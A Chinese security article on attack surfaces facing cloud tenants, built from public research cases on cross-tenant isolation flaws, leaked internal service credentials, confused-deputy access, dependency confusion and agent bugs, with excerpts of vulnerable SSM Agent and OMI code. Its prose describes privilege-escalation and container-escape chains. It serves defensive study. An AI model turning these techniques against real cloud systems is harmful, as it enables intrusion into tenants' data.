# 企业上云的新攻击面分析-先知社区

> **来源**: https://xz.aliyun.com/news/16324  
> **文章ID**: 16324

---

**注1：本文引用的实际案例均来自业界公开渠道。**

**注2：同一类云服务、功能在不同的云厂商可能叫法不同，例如AWS IAM和阿里云 RAM本质上是一个东西，本文默认使用AWS的定义。**

# 一、前言

按照笔者的理解，我们常谈的云安全实际包含了两大方面：云平台自身的安全，以及云上租户的安全。**本文主要目的是探讨后者，也即企业上云后，相较于传统IDC等环境，作为云上租户面临的一些新攻击面**。

不过云平台自身的安全是租户安全的基石，因此即便是探讨云上租户的安全，谈及云平台安全/云服务漏洞也是无可避免的。

# 二、攻击面概要

在分析攻击面之前，需要先了解“云安全责任共担模型”，这是划分云厂商和租户责任边界的协议。

简单来说，不同类型的云服务有不同安全责任边界，例如IaaS类型的云服务，从操作系统开始都由租户自行负责，如果出了个系统漏洞，原则上需要由租户自行升级打补丁。

借用GCP的一张图（<https://cloud.google.com/learn/paas-vs-iaas-vs-saas>），对多种类型的云服务的责任边界进行了划分。



不过从笔者的经验来看，实际的安全责任边界并没有想象中的清晰：），会有一些模糊的地方。

这里笔者将云上租户面临的攻击面划分为三大块：

* **云服务漏洞**：直接或间接影响租户；责任方在云平台
* **错误的云配置**：一般由于租户不熟悉云服务的机制导致，直接影响租户；责任方在租户
* **高风险的云特性**：云平台或云服务的底层设计机制导致，默认扩大了租户的安全风险；这里正是责任边界最模糊的地方。



下面会对每一类攻击面展开说明，并引入1-3个案例或示例辅以分析。

# 三、云服务漏洞

常见的云服务漏洞类型包括：

* **传统漏洞**：命令注入、代码沙箱逃逸、越权访问、SSRF等
* **云原生组件漏洞**：容器逃逸、K8s集群接管等
* **虚拟化漏洞**：虚拟机逃逸、虚拟化网络隔离打破等
* **内部凭据泄露**：云服务内部账号、私有镜像仓库凭据等
* **云服务Agent漏洞**：本地提权、敏感信息泄露等
* **软件云服务化保留的高风险功能**：PostgreSQL命令执行、kubeconfig引入插件执行命令、terraform配置文件引入外部模块执行命令等
* **云服务IAM使用不当**：混淆代理人、IAM提权等
* **云服务功能缺陷**：云日志记录缺失、云WAF通用绕过等

但正如前面所提，本文探讨的核心是云上租户的安全，相较于云服务漏洞类型，**更关心云服务漏洞如何影响租户。从这个角度出发，笔者粗暴地将云服务漏洞划分为两类**：

1. **跨租户漏洞**：这类漏洞意味着攻击者无需其他前置条件，可利用漏洞直接影响云上租户
   * **租户资源实例隔离缺陷**->跨租户访问资源实例
   * **云服务管理面失陷**->用运管能力接管租户的资源实例
   * **云服务内部账号凭据泄露**->用云服务账号获取租户授权角色的凭据，进而接管租户的资源实例
   * **跨租户的越权访问**->直接获取数据或权限
   * **云服务引入的供应链攻击**->租户使用云服务提供的sdk、镜像等被注入恶意代码
2. **非(直接)跨租户漏洞**：只能在当前租户或资源示例内实现类似"提权"的能力，要实际影响到租户，还需要先从其他途径获得目标租户内的一个"驻点"。
   * **资源实例内的各类漏洞，但未能打破租户隔离**
   * **云服务角色引入的提权漏洞**
   * **云服务Agent引入的本地提权或信息泄露**
   * **云服务功能缺陷，影响租户的资源实例或开发的应用**
   * **租户内的越权访问**

**资源实例**：**云服务为租户提供的最小资源单位**，不同云服务各不相同，例如EC2是一台VM，EKS是一个K8s集群。

## 3.1 跨租户漏洞

### 3.1.1 **租户资源实例隔离缺陷**

隔离是云安全的基石，但不同云服务为租户所提供的资源实例的隔离强度往往是不同的，即便是同一类型的云服务，出于资源利用率、部署成本、运管方式等各种因素的考量，隔离强度都可能大不相同。

根据笔者的经验，云服务资源实例的常见隔离方案，以及所对应打破隔离所需要的能力如下所示：



实际情况可能会比上图更复杂一些，但隔离强度的趋势是大致相同的，同一水平线上的隔离方案可能各有千秋，打破隔离的方式也有所不同。

**两个对比案例**

来看两个来自微软Azure和谷歌GCP的案例：





* 图一，Azure：<https://www.wiz.io/blog/wiz-research-discovers-extrareplica-cross-account-database-vulnerability-in-azure-postgresql>
* 图二，GCP：<https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities>

PostgreSQL在9.3版本开始提供`copy from program`语句，支持执行系统命令，而各大云厂商都通过对数据库用户降权的方式来做限制。

两个漏洞的过程其实是非常类似的，都先进行了数据库用户提权，然后再利用`copy from program`获得了容器的权限，在GCP上甚至完成了容器逃逸，得到了宿主机的权限，但最终却只在Azure上完成了跨租户的攻击。**核心区别就在于资源实例的隔离强度，Azure上并没有实施网络隔离**。

**小结**

这两个案例都是wiz团队公开的，近几年有多个安全团队针对不同云厂商的云数据库做了一系列的测试，以下是一些公开的案例：

* 阿里云：数据库集群失陷，可实现跨租户接管数据库，<https://www.wiz.io/blog/brokensesame-accidental-write-permissions-to-private-registry-allowed-potential-r>
* IBM Cloud：不同租户的数据库实例通过K8s namespaces隔离，漏洞只能控制当前租户所在的namespace，没能实现直接跨租户接管数据库实例。但泄露了内部容器镜像仓库和制品仓库的凭据，并测试了可覆盖任意数据库实例上的安装包，证明可通过供应链实现跨租户的影响，<https://www.wiz.io/blog/hells-keychain-supply-chain-attack-in-ibm-cloud-databases-for-postgresql>
* AWS：云服务内部账号凭据泄露，未进一步验证是否有跨租户影响，<https://blog.lightspin.io/aws-rds-critical-security-vulnerability>
* Azure：网络隔离缺陷，可实现跨租户接管数据库，<https://www.wiz.io/blog/wiz-research-discovers-extrareplica-cross-account-database-vulnerability-in-azure-postgresql>
* GCP：均没有提及跨租户的影响，在最后一个案例中提到了可以访问内部镜像仓库，但未进一步说明读写权限、也未说明对租户的实际影响，<https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities>、<https://www.ezequiel.tech/2020/08/dropping-shell-in.html>、<https://www.dig.security/post/gcp-cloudsql-vulnerability-leads-to-internal-container-access-and-data-exposure>

在GCP的三个公开案例中，分别涉及GCP云数据库中的PostgreSQL、MySQL、SQL Server，但都没有出现直接跨租户的影响。

从案例中进一步分析GCP云数据库的部署方式和隔离方案，会发现GCP和其他云厂商最大的不同点在于：其他云厂商都是在K8s集群的基础上进行部署，数据库实例通过pod的形式提供，隔离方案也依赖于K8s的机制，而GCP虽然也通过容器来提供数据库实例，但上层似乎并没有使用K8s，每个租户的容器都部署在独立的VM，真正的隔离边界是在上层VM，并且在VM之间也进行了网络隔离。

似乎谷歌认为将容器作为云服务、至少是数据库这类高敏感云服务的隔离边界是不足的？

后面在Hacker news上面看到了一篇帖子：<https://news.ycombinator.com/item?id=36086858>，里面有一些声称为GCP员工或前员工的人的提到谷歌似乎特别认为容器边界并不安全，将数据库放入独立的VM也是服务演进的结果，这也从侧面印证了上述猜想。



当然，这里并不是完全否定通过容器来作为云服务资源实例的隔离边界，也无意拉踩各个云厂商（毕竟一类案例也很难有说服力，部分云服务会提供私有资源版本和公用资源版本，这可能也是差异点之一）。

**笔者只是想强调隔离强度的重要性，不同云厂商在设计同类云服务的底层架构时并没有统一的标准**，甚至同一个云厂商下的同类服务也大有不同，也很少有看到某个云服务明确声明自己提供了什么级别的隔离强度，这对云厂商和租户来说都是一个挑战：

* 于租户而言，在选用云厂商/云服务的时候，没有一个合适和公开标准来评估云服务的安全性
* 于云厂商而言，云服务在架构设计时如何平衡经济成本和隔离强度似乎也没有一个权威的标准

### 3.1.2 云服务管理面失陷

**案例一（ChaosDB）：接管Azure Cosmos DB云服务**



* **原文**：<https://www.wiz.io/blog/chaosdb-explained-azures-cosmos-db-vulnerability-walkthrough>
* **服务介绍**：Cosmos DB 是微软 Azure 提供的一种分布式、多模型的数据库服务。支持多种数据模型，包括文档、键值、图形和列族等。该服务在2019年引入了jupyter，租户可使用jupyter对Cosmos DB的数据进行可视化，这个功能在2021年默认开启。
* **影响**：控制了部署Cosmos DB资源的底层集群，相当于接管了Cosmos DB服务，可访问任意租户的cosmos数据库。

**案例二（I Own your Cloud Shell）：Azure跨租户接管CloudShell**



* **原文**：<https://hencohen10.medium.com/i-own-your-cloud-shell-taking-over-azure-cloud-shell-kubernetes-cluster-through-unsecured-558621519cf9>
* **服务介绍**：用过公有云的小伙伴应该都很熟悉CloudShell，它是通过浏览器提供的Shell，预装了一些工具，往往在控制台的首页就能直接点击使用，供用户便捷体验、使用和管理云上资源，一般就是一个容器环境，Azure的CloudShell也是类似的。
* **影响**：控制攻击者CloudShell所处的k8s集群，导致任意租户的CloudShell被接管。

**小结**

集群被控制是管理面失陷最常见的场景，容器在云环境中被广泛使用，因此K8s这类容器编排服务事实上会充当某些云服务的"资源管理系统"。获得了K8s集群的权限，往往就相当于控制了云服务提供实例的底层计算资源。除此以外还有几类场景：

* 用云服务构建云服务是各个云厂商常见的做法，因此底层云服务B失陷会影响上层云服务A，此外云服务A要使用云服务B必然要有对应的账号，这个内部账号泄露了也有可能导致管理面失陷。
* 云服务背后的运维平台和CI/CD系统。

### 3.1.3 云服务内部账号凭据泄露

有云平台有两个典型的场景：

* **跨租户访问**：租户A访问租户B的云上资源
* **跨云服务访问**：云服务P访问租户在云服务Q上购买的资源

为了满足这两类场景，各个云服务厂商都有相关的方案。由于两个场景本质上都是一类"授权问题"，因此很"巧合"，大部分云服务厂商都设计了一套方案来同时解决两个场景：

* AWS：**IAM角色**，角色的实体可以是AWS账号，也可以是AWS服务。
* GCP：**IAM服务账号**，GCP的授权机制和其他云厂商有所不同
* 阿里云：**RAM角色**，角色的实体可以是阿里云账号，也可以是阿里云服务。
* 华为云：**IAM委托**，被委托方可以是华为云账号，也可以是华为云服务。
* 腾讯云：**CAM角色**，角色的实体可以是腾讯云账号，也可以是腾讯云服务。


在跨租户的场景，角色的实体是租户账号，我们很容易想到：如果租户A授权了租户B，一旦租户B的云凭据泄露了（有足够权限），那么攻击者就能顺藤摸瓜攻击租户A。

**但创建一个实体是云服务的角色，这个动作背后的含义是什么呢？我们把代表云服务的实体也看作了一类特殊的租户账号，就很好理解了**。这类账号也被IAM所管理，遵循IAM的规则，可以用这个账号的凭据来调用IAM的接口。也即：无论可信实体是AWS服务还是AWS账户，本质都是授权给某个租户账号，只不过AWS服务的账号是相对特殊的。

**事实上也的确如此，本文将这类特殊的租户账号称为云服务内部账号（不同的云厂商可能叫法不同，但本质上应该是一样的）。当这类云服务内账号的凭据泄露了，就可以复用跨租户的攻击方式，例如利用云服务内部账号凭据通过AssumeRole API获取租户的临时凭据，进而攻击租户。**

**案例一（Superglue）：获得AWS Glue服务内部账号凭据，代入任意Glue服务的用户的对应角色，相当于得到了任意租户对AWS Glue服务的授权**



* **原文**：<https://orca.security/resources/blog/aws-glue-vulnerability/>
* **服务介绍**：Glue 是 Amazon Web Services 提供的全托管 ETL（Extract, Transform, Load）服务，可以连接到各种数据源（如 RDS、S3、DynamoDB 等），从中抽取数据，对数据进行转换，并将数据加载到目标数据存储中。
* **影响**：Glue泄露了云服务内部账号的凭据，通过提权获得该账号的管理员权限。利用该云服务内部账号：可代入任意租户对Glue服务授权的角色，直接影响租户（影响取决于租户授予Glue的权限）；接管Glue服务的所有资源；

**案例二（BreakingFormation）：获得AWS CloudFormation服务内部账号凭据，影响与Superglue类似**


* **原文**：<https://orca.security/resources/blog/breakingformation-technical-vulnerability-walkthrough/>
* **服务介绍**：AWS CloudFormation 服务用于定义和提供 AWS 基础设施的代码。用户可以使用模板文件（以 JSON 或 YAML 格式编写）来描述 AWS 资源，并使用这些模板来自动化创建、更新和删除资源。
* **影响**：获得AWS CloudFormation服务内部账号凭据，原文中只说明了影响参考上一个案例Superglue。

**案例三（Cataclysms in the Cloud Formations）：获取AWS CloudFormation用户的凭据**



* **原文**：<https://onecloudplease.com/blog/security-september-cataclysms-in-the-cloud-formations>
* **服务介绍**：同上。
* **影响**：获得了CloudFormation服务内部账号凭据，在内部账号中创建新事件获取普通租户的凭据。
* **过程**：这应该是业界公开案例中，对服务内部账号利用最详细的案例之一，有必要再通过文字展开一下过程
* AWS CloudFormation支持在模板中使用Lambda表达式来定义资源，提高灵活性。
* 作者发现在CloudFormation中使用Lambda表达式，是在AWS云服务提供的环境中执行，而不是租户自己的环境。
* 将所有lambda接收的输入都打印出来，发现了四类凭据，其中一类凭据（platformCredentials）属于云服务内部账号。
* 进一步分析该云服务内部账号凭据的权限，发现有EventBridge相关权限：
  1. events:PutRule： 创建或更新 EventBridge 规则
  2. events:PutTarget： 将一个或多个目标（如 Lambda 函数、SNS 主题、SQS 队列等）添加到特定规则中，以便在规则匹配事件时触发这些目标
  3. events:RemoveTarget： 从 EventBridge 规则中移除目标
  4. events:DeleteRule： 删除 EventBridge 规则
* PutTarget可以通过事件规则来执行指定的lambda，作者首先尝试了直接通过API触发自身租户账号的lambda，发现失败了，因为规则里面限定了events:TargetArn为指定的lambda实例（因为这个凭据本来就是用来触发cloudformation内部账号的lambda）。
* 于是作者换了一种思路，直接创建一条新的event rule（PutRule），在新的event rule中指定target为作者租户的lambda，事件类型为AWS API Call via CloudTrail，发现成功了。此时相当于作者的lambda可以接收到云服务内部账号的事件。
* 作者尝试分析事件输入是否包含敏感信息，打印了lambda的所有输入，发现其中一个CloudTrail事件（AWS审计服务）的输入包含了多个普通租户的凭据，应该是因为CloudFormation对应的内部账号开通了CloudTrail审计服务，然后CloudTrail事件中包含了CloudFormation用户的凭据。

**小结**

云服务内部账号一般有两个作用：

* 作为云服务的IAM身份代表，接受租户的授权。
* 在云服务间调用作为身份标识，例如用于购买构建云服务的资源，这也是用云服务构建云服务的结果。

当高权限的内部账号凭据泄露，将直接影响所有使用了该云服务的租户。

### 3.1.4 跨租户越权访问

云上的越权访问有两大类：

* **普通越权**：例如基于资源实例ID、租户ID的越权
* **混淆代理人（confused deputy）**：云上一类特殊的越权，是跨租户、跨云服务授权机制的产物。

**案例一（AttachMe）：Oracle Cloud跨租户挂载任意存储卷**

先来看一个普通越权的案例：



* **原文**：<https://www.wiz.io/blog/attachme-oracle-cloud-vulnerability-allows-unauthorized-cross-tenant-volume-access>
* **服务介绍**：OCI，Oracle云虚拟机的存储卷，卷是为计算实例提供持久存储空间的虚拟磁盘
* **成因**：每个卷都有一个OCID，作者发现虚拟机挂载卷时没有检验租户是否有对应卷的权限，可以挂载任意租户的卷，相当低级又严重的漏洞。同时，由于卷本身支持多台虚拟机挂载，导致所有存储卷和启动卷都可以被任意挂载。
* **影响**：挂载任意租户的卷

**案例二：A confused deputy vulnerability in AWS AppSync**

在介绍第二个案例前，需要了解一下"混淆代理人（confused deputy）"漏洞，详情可参考AWS官方说明：<https://docs.aws.amazon.com/IAM/latest/UserGuide/confused-deputy.html>

简单来说：**代理人（被授权的账号）没有校验传入角色ARN是否和访问账号在同一租户下，导致攻击者（本无授权）可以欺骗代理人（有授权）以传入的角色（受害者创建，实体为对应代理人）进行操作。**



AWS给的消减措施也很简单，就是在策略中增加一个external ID，代理人在代入角色时会将操作人的external ID附带上，IAM校验发现该ID不一致则会拒绝。



案例如下：



* **原文**：<https://securitylabs.datadoghq.com/articles/appsync-vulnerability-disclosure/>
* **服务介绍**：AppSync 是AWS提供的完全托管的 GraphQL 和 Pub/Sub API 服务。
* **成因**：AppSync Create Data接口用于从数据源加载数据到实例中，该接口通过角色代入来访问数据源，而决定代入哪个角色则是通过请求参数中的RoleArn来决定。由于没有校验了RoleArn的属主，导致了混淆代理人攻击。
* **影响**：跨租户访问数据，实际影响取决于受害租户对AppSync服务角色的授权。

**小结**

越权漏洞往往都朴实无华但又影响巨大，这里引用的都是跨租户的越权访问案例，租户内的越权有时综合利用也能产生很高的危害。

### **3.1.5 云服务引入的供应链攻击**

**案例一：ECR Public vulnerability in undocumented API**



* **原文**：[https://blog.lightspin.io/aws-ecr-public-vulnerability](https://web.archive.org/web/20221217045257/https://blog.lightspin.io/aws-ecr-public-vulnerability)
* **服务介绍**：ECR Public（Amazon Elastic Container Registry Public）是AWS提供的容器仓库服务，Nginx、ubuntu等公司和项目都会在ECR服务发布镜像。
* **成因：**访问ECR服务console时，作者分析了请求和页面js，从中发现了内部账号凭据和内部接口，经过一系列操作后发现可以直接利用该内部凭据操作ECR 公有库。
* **影响**：删除 Amazon ECR 公有库中的所有镜像，或更新镜像内容以注入恶意代码。

---

**案例二（CloudImposer）：通过依赖混淆（dependency-confusion）攻击GCP内部服务器**

在讲解案例之前需要先介绍一下依赖混淆（dependency-confusion），该漏洞类型在2021年被Alex提出：<https://medium.com/alex.birsan/dependency-confusion-4a5d60fec610>

例如在Python中，当使用pip下载依赖时，如果使用了`--extra-index-url`参数，那么除了从私有注册表寻找依赖外，还会从公共注册表(PyPI)中寻找依赖项。

此时如果攻击者在公共注册表(PyPI)上传了同名的依赖项（依赖项原本只存在与内部私有注册表），那么pip会选择版本号更高的依赖（如果是同版本，依然会优先选择公共注册表），这就导致了供应链攻击。

* **原文**：<https://www.tenable.com/blog/cloudimposer-executing-code-on-millions-of-google-servers-with-a-single-malicious-package>
* **服务介绍**：Cloud Composer，是开源 Apache Airflow 服务在GCP的托管服务版本，一个工作流编排服务
* **影响**：在GCP内部服务器上执行命令

这个案例不太好用图表示，直接文字描述过程：

1. 作者查看GCP各服务的文档时，发现部分服务推荐用户使用`--extra-index-url`参数，如果依赖中使用了私有注册表，就相当于给用户引入了依赖混淆攻击的风险。App Engine、Cloud Function 和 Cloud Composer 三个服务的文档均有此类问题。  
   
2. 既然GCP自身文档存在问题，作者想进一步了解google内部服务中安装私有包时是否也同样遵循了这种“错误做法”。查看Cloud Composer文档，发现用户创建Cloud Composer服务时，都会部署Apache Airflow 系统的镜像，并且还在其中捆绑了Cloud Composer 运行所需的依赖，其中就包括了一系列的PyPI包。  
   
3. 对这一系列的PyPI包进行筛选：找到公共注册表中缺少的包，因为这意味着这个包是GCP内部注册表的。最终发现了一个：`google-cloud-datacatalog-lineage-producer-client`
4. 然后自己创建了一个Cloud Composer实例，并尝试找到google-cloud-datacatalog-lineage-producer-client包的安装命令，最终发现的确使用了`--extra-index-url`参数。  
   
5. 作者这里还有一个疑问：依赖混淆是根据包的版本来确定的，但Cloud Composer 文档中，软件版本是确定的。**如果私有注册表和公共注册表存在同一版本的依赖项，优先级哪个更高呢？答案是公共注册表！**
6. 于是作者进一步在PyPI中注册了一个恶意google-cloud-datacatalog-lineage-producer-client包，很快就收到了数百个请求，证明在google内部服务器中执行了代码。

**小结**

* 云平台/云服务给租户提供的一系列资源：系统镜像、容器镜像、sdk、agent都有可能被污染
* 云服务给租户提供的实例自身也可能遭受供应链攻击
* 针对依赖混淆这类攻击，云平台应该有针对性的缓解措施，例如自行注册公共注注册表，以及用户指导文档中使用安全的参数。

## 3.2 非跨租户漏洞

非夸租户漏洞，实质上是“无法直接实现跨租户影响的漏洞”，这类漏洞往往只能在租户内实现“提权”的能力（这里的“提权”是广义上的，除了账号权限提升外，从一个集群的容器到控制整个集群也可以被看作是提权），要实际利用一般需要在目标租户内获得一个驻点，或者是依赖一些前置条件：例如租户配置，或者是用户点击等。

### 3.2.1 资源实例内的漏洞

资源实例内的漏洞有各式各样的，此类漏洞往往是由于云服务的隔离边界较好，或是部署模式的原因，导致未能突破隔离，阻止了直接的跨租户影响。

**案例一：Azure Serverless Functions escape to host**

* **原文**：<https://unit42.paloaltonetworks.com/azure-serverless-functions-security/>
* **服务介绍**：Aure Function，Serverless服务
* **成因**：文件覆盖漏洞导致的本地提权；配置了高权限cap导致容器逃逸；
* **影响**：突破了云函数的容器，得到上层虚拟机的权限，但并没有造成跨租户的影响，Aure Function没有把容器作为隔离边界，边界是容器上层的虚拟机。
* **过程**：
  1. 创建云函数，在环境变量中发现了所用的容器镜像
  2. 下载容器镜像，使用开源工具Whaler：<https://github.com/P3GLEG/Whaler>，从容器镜像反推出其Dockerfile。
  3. 分析Dockerfile，可以看到启动命令和各种修改过的目录，启动命令为：/root/mesh/launch.sh。在/root/mesh/还有一个init，是云函数容器的守护进程。
  4. 逆向分析/root/mesh/init，发现进程在本地开启了一个web服务，并且提供了一接口可以覆盖任意文件。
  5. 通过覆盖/etc/shadow，获得容器内的root权限
  6. 发现容器有cap\_sys\_admin权限，通过cgroup release\_agent的方式完成逃逸，获得宿主机权限。

**案例二：FabricScape**



* **原文**：<https://unit42.paloaltonetworks.com/fabricscape-cve-2022-30137/>
* **服务介绍**：Azure Service Fabric 是在云中部署专用 Service Fabric 群集的 Azure 产品/服务，被许多Azure使用。Service Fabric 群集由许多节点组成，每个节点都运行一个容器引擎，由该引擎执行所需的容器化应用程序，就像 Kubernetes 一样。
* **影响**：获得Fabric集群中任一容器权限后，可通过该漏洞获得接管整个集群。

**小结**

对比FabricScape和前面的跨租户漏洞，其实会发现漏洞利用的过程非常相似，关键的区别只是在于“云服务的形态”，Azure Service Fabric是在租户环境内部署的，整个集群都属于一个租户。

但Azure Service Fabric本身也被其他的Azure云服务使用，试想这样一个场景：Azure中的X云服务是一个Serverless服务，用户使用时会分配一个容器，而X云服务本身使用了Azure Service Fabric部署其集群。

在这种场景下，攻击者在X云服务中利用FabricScape漏洞，就能直接产生跨租户的影响。

这其实也是云服务漏洞的利用的两种思路：

* 用云服务漏洞攻击其他云服务，再影响租户。
* 先在租户内获得一个驻点，例如租户使用Azure Service Fabric服务来部署业务，通过应用漏洞先获得集群内一个容器的权限。

### 3.2.2 Agent漏洞

为VM或K8s集群提供日志采集、运维管理、安全防护等能力的云服务一般需要在租户的资源实例内安装一个Agent（进程/容器），由该Agent实现数据采集和上报、运维脚本执行等能力。

**这类Agent往往需要以高权限运行，处理敏感的数据或指令。由此，攻击者也可以借用Agent的能力，实现本地提权、容器逃逸、敏感信息泄漏等攻击。**

**案例一（cve-2022-29527）：AWS SSM Agent 本地提权**

* **原文**：<https://github.com/advisories/GHSA-87pw-p9qx-p46w>
* **服务介绍**：AWS Systems Manager是AWS推出的运管服务，下发AWS SSM Agent来管理用户的虚拟机
* **影响**：本地提权至root

Agent在某些场景会创建一个全局可写的 sudoers 文件，代码如下：

* 代码以root权限执行
* 文件会让appconfig.DefaultRunAsUserName用户无需密码即可使用sudo权限。**该sudoers文件创建时的权限是666**，但随后会使用changeModeOfSudoersFile方法修改为440只读。

```
// agent/session/utility/utility_unix.go:
func (u *SessionUtil) createSudoersFileIfNotPresent(log log.T) error {

    // Return if the file exists
    if _, err := os.Stat(sudoersFile); err == nil {
        log.Infof("File %s already exists", sudoersFile)
        _ = u.changeModeOfSudoersFile(log)
        return err
    }

    // Create a sudoers file for ssm-user，default 0666
    file, err := os.Create(sudoersFile)
    if err != nil {
        log.Errorf("Failed to add %s to sudoers file: %v", appconfig.DefaultRunAsUserName, err)
        return err
    }
    defer file.Close()

    if _, err := file.WriteString(fmt.Sprintf("# User rules for %s\n", appconfig.DefaultRunAsUserName)); err != nil {
        return err
    }
    if _, err := file.WriteString(fmt.Sprintf("%s ALL=(ALL) NOPASSWD:ALL\n", appconfig.DefaultRunAsUserName)); err != nil {
        return err
    }
    ...
}

func (u *SessionUtil) changeModeOfSudoersFile(log log.T) error {
    fileMode := os.FileMode(sudoersFileMode)
    if err := os.Chmod(sudoersFile, fileMode); err != nil {
        log.Errorf("Failed to change mode of %s to %d: %v",
sudoersFile, sudoersFileMode, err)
        return err
    }
    log.Infof("Successfully changed mode of %s to %d", sudoersFile,
sudoersFileMode)
    return nil
}
...

```

这里就出现了一个条件竞争的问题，当sudoers创建后，修改文件权限前，普通用户也有权限写该文件。

**案例二（CVE-2021-38647）：OMIGOD**

虽然Agent类型漏洞的影响一般是非跨租户的，但实际影响还是取决于如何访问agent、漏洞能否远程利用、或者所泄漏的数据是否能影响到多个租户。



* **原文**：<https://www.wiz.io/blog/secret-agent-exposes-azure-customers-to-unauthorized-code-execution>
* **服务介绍**：OMI Agent (Open Management Infrastructure Agent) 是一个用于系统管理和监控的开源代理，由微软开发，它主要用于管理和监控 Linux 和 Unix 系统。
* **影响**：当OMI开放到外部访问时，直接获取安装了Agent的主机root权限。如果是本地监听则只能用于本地提权。

OMI是典型的前后端架构：

* omiserver：以root身份运行，omi功能的执行者
* omiengine：以omi用户身份运行，用于监听端口和unix socke通信的进程，同时负责对omicli进行认证
* omicli：能和omiengine通信，通过unix socket或者http





在omiAgent的架构中，负责接收omicli请求的进程是omiengine，它在校验omicli身份时出现了一个经典的致命错误。

1. 每次omiengine接收到新请求，都会调用\_ListenerCallback函数创建新的\_Http\_SR\_SocketData，\_Http\_SR\_SocketData里面包含了AuthInfo结构体，用于标识请求用户的身份。观察一下初始化过程，有两个重要的点：

   1. h->authFailed被设置为False
   2. \_AuthInfo下的uid、gid默认值为0，被memset初始化过。

      ```
      static MI_Boolean _ListenerCallback(
        Selector* sel,
        Handler* handler_,
        MI_Uint32 mask,
        MI_Uint64 currentTimeUsec)
      {
      ....

            /* Create handler */
            h = (Http_SR_SocketData*)Strand_New( STRAND_DEBUG( HttpSocket ) &_HttpSocket_FT, sizeof(Http_SR_SocketData), STRAND_FLAG_ENTERSTRAND, NULL );

            if (!h)
            {
                trace_SocketClose_Http_SR_SocketDataAllocFailed();
                HttpAuth_Close(handler_);
                Sock_Close(s);
                return MI_TRUE;
            }

            /* Primary refount -- secondary one is for posting to protocol thread safely */
            h->refcount = 1;
            h->http = self;
            h->pAuthContext  = NULL;
            h->pVerifierCred = NULL;
            h->isAuthorised = FALSE;
            h->authFailed   = FALSE; <--- (1)
            h->encryptedTransaction = FALSE;
            h->pSendAuthHeader = NULL;
            h->sendAuthHeaderLen = 0;
            ....
      }

      typedef struct _Http_SR_SocketData {
        ....
        /* Set true when auth has passed */
        MI_Boolean isAuthorised;

        /* Set true when auth has failed */
        MI_Boolean authFailed;

        /* Requestor information */
        AuthInfo authInfo;

        volatile ptrdiff_t refcount;
      } Http_SR_SocketData;

      typedef struct _AuthInfo
      {
        // Linux version
        uid_t uid;
        gid_t gid;
      }
      AuthInfo;
      ```
2. omiengine处理身份验证的代码如下，有两个重要的条件分支

   1. if(handler->recvHeaders.authorization)：如果不提交authorization头，则结果为false，走到else的逻辑，由此走进了第二个条件分支判断。
   2. if (handler->authFailed)：由于authFailed的初始值为0，也不会走进该分支。
   3. **相当于只要不提交authorization头，就可以直接通过认证**。而原本正常的逻辑是走到if(handler->recvHeaders.authorization)，如果authorization校验失败则置authFailed为true。

      ```
      static Http_CallbackResult _ReadData(
        Http_SR_SocketData* handler)
      {
      ....

        /* If we are authorised, but the client is sending an auth header, then
         * we need to tear down all of the auth state and authorise again.
         * NeedsReauthorization does the teardown
         */

        if(handler->recvHeaders.authorization) <--- (1)
        {
            Http_CallbackResult authorized;
            handler->requestIsBeingProcessed = MI_TRUE;

            if (handler->isAuthorised)
            {
                Deauthorize(handler);
            }

            authorized = IsClientAuthorized(handler);

            if (PRT_RETURN_FALSE == authorized)
            {
                goto Done;
            }
            else if (PRT_CONTINUE == authorized)
            {
                return PRT_CONTINUE;
            }
        }
        else
        {
            /* Once we are unauthorised we remain unauthorised until the client
               starts the auth process again */

            if (handler->authFailed) <--- (2)
            {
                handler->httpErrorCode = HTTP_ERROR_CODE_UNAUTHORIZED;
                return PRT_RETURN_FALSE;
            }
        }

        r = Process_Authorized_Message(handler); <--- (3)
      Done:
        handler->recvPage = 0;
        handler->receivedSize = 0;
        memset(&handler->recvHeaders, 0, sizeof(handler->recvHeaders));
        handler->recvingState = RECV_STATE_HEADER;
        return PRT_CONTINUE;
      }
      ```
3. 通过认证后消息就被传递到了后端的omiserver，omiserver根据消息的AuthInfo结构中的uid、gid来确认用户身份。因为都是0，因此是root用户。
4. omiserver本身就有运维能力，可以直接执行系统命令，由此获得root权限。

虽然漏洞本身是一个PreAuth RCE漏洞，不过实际使用会有两种场景：

* **将OMI开放至外部访问**：在使用Azure Configuration Management、和 System Center Operations Manager (SCOM)服务时，默认配置就会让OMI Agnet 全零监听端口 (5986/5985/1270)，外部可访问。这种场景可以认为是跨租户的漏洞。
* **只能允许本地访问**：如果没有配置为全0监听，则该漏洞也可以用于本地提权。

**小结**

这一节引用的两个案例都利用了本地Agent的缺陷，通过劫持Agent和Server通信是另外一种常见的攻击方式，例如：从流量获取敏感信息、或通过篡改流量完成提权等。

这些攻击方式实际上在在前文案例就有被利用，本节就不重复再拿出来分析了，例如在ChaosDB中通过劫持WireAgent的流量获得了大量的敏感凭据，具体参考<https://www.wiz.io/blog/chaosdb-explained-azures-cosmos-db-vulnerability-walkthrough>；在GCP Cloud SQL escape to host案例中，通过篡改Server向Agent发送的流量完成容器逃逸，具体参考：<https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities>。

### 3.2.3 各类oneclick漏洞

云服务中也存在各类的oneclick漏洞：

* 客户端RCE：AWS WorkSpaces Remote Code Execution(CVE-2021-38112)，<https://rhinosecuritylabs.com/aws/cve-2021-38112-aws-workspaces-rce/>
* CSRF：SSH key injection in Google Cloud Compute Engine，<https://blog.stazot.com/ssh-key-injection-google-cloud/>
* PostMessage：Azure Cloud Shell Command Injection Stealing User’s Access Tokens，<https://www.panoptica.app/research/azure-cloud-shell-command-injection-stealing-users-access-tokens>
* XSS：Super FabriXss: From XSS to an RCE in Azure Service Fabric Explorer by Abusing an Event Tab Cluster Toggle (CVE-2023-23383)，<https://orca.security/resources/blog/super-fabrixss-azure-vulnerability/>

本文更想分享一些相对独特的云上场景，因此上述的漏洞就不单独展开了，来看一个相对特别的案例：

**案例一：GCP Cloud Shell 漏洞5则（利用init.py执行命令）**

* **原文**：<https://www.cloudvulndb.org/gcp-cloudshell-bugs>，这里面包含了5个漏洞，本文单独拿第二个漏洞进行分析。
* **服务介绍**：通过浏览器提供的Shell，预装了一些工具，往往在控制台的首页就能直接点击使用，供用户便捷体验、使用和管理云上资源。
* **影响**：oneclick 接管GCP租户的CloudShell。

